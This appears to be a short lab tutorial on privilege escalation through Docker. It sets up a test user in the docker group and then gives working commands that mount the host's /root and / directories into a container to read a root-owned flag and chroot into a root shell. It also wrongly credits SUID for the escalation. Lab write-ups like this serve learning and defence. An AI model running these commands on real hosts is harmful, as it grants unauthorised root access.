 # SUID Docker

## <mark style="color:red;">Simulation</mark>

install docker using this:

{% embed url="https://docs.docker.com/engine/install/debian/#install-using-the-repository" %}

after the installation is completed add a new user for this test and add it to the docker group

#### `adduser test` `usermod -aG docker test`

Now ssh to the target with the new user

![](../../../../.gitbook/assets/docker.png)

we have access to the docker group

to test this run docker hello-world default image

#### `docker run hello-world`

![](../../../../.gitbook/assets/docker2.png)

what just happened was docker client connected to docker daemon and the daemon pulled the "hello-world" image from docker hub. then it created a nre container from that image and ran it. then the daemon streamed the output "Hello from Docker!" to docker client which sent it to the terminal.

## <mark style="color:red;">Exploitation</mark>

To gain a root shell, we can do this with another image like an ubuntu container:

#### `docker run ubuntu`

one of dockers features is that it can mount a directory from the host system to a directory in the container for quick file grabbing.

#### `docker run -v /root:/mnt ubuntu cat /mnt/flag.txt`

By using the -v flag we specified a volume to mount, in this case the /root directory on the host was mounted to the /mnt directory on the container. Because docker has SUID we were able to mount a root owned directory in our container!

we can get a shell using the same technique combined with the chroot command

#### `docker run -it -v /:/mnt ubuntu chroot /mnt`

![](../../../../.gitbook/assets/docker3.png)

